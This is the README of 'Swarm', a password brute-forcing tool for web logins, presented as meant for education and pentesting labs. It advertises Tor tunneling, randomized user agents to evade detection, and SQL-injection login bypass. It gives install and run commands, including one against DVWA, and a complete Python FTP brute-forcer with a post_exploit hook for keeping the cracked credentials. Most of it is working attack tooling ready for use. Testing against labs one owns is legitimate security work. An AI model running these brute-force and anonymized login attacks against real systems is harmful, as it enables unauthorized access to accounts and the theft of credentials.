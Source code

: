 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Able to tunnel requests through tor, just use --tor option
* Able to by-pass logins via SQL Injections if option is specified
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
##Usage

###For all options
```shell
./swarm --help
``` 
###Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Using Hive to Develop New Tools 
Hive makes developing new bruteforcing tools a breeze! The following is an example of an FTP bruteforcer
```python
from hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                         pass
                return success

        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

        def post_exploit(self,credential):
                # -------- Do Something ----------
                # Such as display a custom login message
                # Store credentials in a Database, etc.
                exit()

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'                    # specify the target
ftp_bruteforce.usernameFile = 'usernames.txt'                   # the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'                   # the password file to use
ftp_bruteforce.verbose = True                                   # verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.post_exploit)  # Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()                                          # setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)                               # starts the bruteforcing task

```

